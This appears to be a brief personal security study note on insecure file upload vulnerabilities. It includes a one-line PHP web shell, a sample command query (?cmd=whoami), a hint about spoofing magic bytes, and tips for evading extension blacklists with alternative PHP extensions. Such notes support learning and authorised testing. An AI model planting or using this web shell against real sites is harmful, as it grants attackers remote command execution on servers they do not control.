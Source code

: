 When a site allows files to be uploaded, this can be used as an attack vector.
![[insecurefileupload.png]]

Some security checks may require the magic bytes
https://portswigger.net/bappstore/517909d862cd4d3dbc48c4cc1dc61f87
![[insecurefileupload2.png]]

```
<?php system($_GET['cmd']); ?>
```

Once the file is uploaded we can send commands like ?cmd=whoami
![[insecurefileupload3.png]]

If the site is blacklisting extensions instead of whitelisting these can likely be abused by trying various file types like phtml, php5, etc
![[insecurefileupload5.png]]